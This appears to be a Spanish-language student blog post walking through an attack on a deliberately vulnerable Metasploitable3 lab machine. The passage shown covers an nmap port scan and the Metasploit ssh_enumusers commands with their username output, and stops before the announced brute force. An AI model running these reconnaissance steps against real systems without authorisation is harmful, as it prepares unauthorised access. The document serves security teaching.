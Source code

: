 +++ 
draft = true
date = 2021-10-11T19:32:07+02:00
title = "Tomar el control de Metasploitable3"
description = "Tomar el control de Metasploitable3"
slug = ""
authors = ["Daniel Parrales"]
tags = []
categories = ["Seguridad y Alta Disponibilidad"]
externalLink = ""
series = []
+++

# Tomar el control de la máquina Ubuntu de Metasploitable3 a través de un ataque de fuerza bruta por SSH

En esta parte vamos a utilizar una máquina con sistema operativo Kali Linux para tomar el control de una máquina Ubuntu creada a través de “Metasploitable3”, por lo que ha sido creada con multitud de vulnerabilidades que podremos aprovechar. En este caso en concreto, he optado por usar un ataque de fuerza bruta para conectarme por ssh a la máquina y una vez dentro escalar privilegios para convertirme en root, obteniendo así el control total de la máquina.

Para ello, lo primero es averiguar si la máquina objetivo tiene el puerto 22 abierto. Lo  comprobamos usando el siguiente comando:

`
nmap -p 22 192.168.122.254
`

Obtenemos la siguiente información:

![nmap_meta.png](/images/metasploitable3/nmap_meta.png)

Como podemos ver, el puerto está abierto. Ahora usaremos un módulo auxiliar que está instalado en Kali Linux para conseguir toda la lista de usuarios que hay creados en la máquina objetivo. Seguimos los siguientes pasos:

```
msfconsole
use auxiliary/scanner/ssh/ssh_enumusers
set RHOSTS 192.168.122.254
set USER_FILE /usr/share/wordlists/metasploit/unix_users.txt
run
```

Con esto, tras acabar el módulo, obtenemos la siguiente lista de usuarios:

```
[*] 192.168.122.254:22 - SSH - Using malformed packet technique
[*] 192.168.122.254:22 - SSH - Starting scan
[+] 192.168.122.254:22 - SSH - User '4Dgifts' found
[+] 192.168.122.254:22 - SSH - User 'abrt' found
[+] 192.168.122.254:22 - SSH - User 'adm' found
[+] 192.168.122.254:22 - SSH - User 'admin' found
[+] 192.168.122.254:22 - SSH - User 'administrator' found
[+] 192.168.122.254:22 - SSH - User 'anon' found
[+] 192.168.122.254:22 - SSH - User '_apt' found
[+] 192.168.122.254:22 - SSH - User 'arpwatch' found
[+] 192.168.122.254:22 - SSH - User 'auditor' found
[+] 192.168.122.254:22 - SSH - User 'avahi' found
[+] 192.168.122.254:22 - SSH - User 'avahi-autoipd' found
[+] 192.168.122.254:22 - SSH - User 'backup' found
[+] 192.168.122.254:22 - SSH - User 'bbs' found
[+] 192.168.122.254:22 - SSH - User 'beef-xss' found
[+] 192.168.122.254:22 - SSH - User 'bin' found
[+] 192.168.122.254:22 - SSH - User 'bitnami' found
```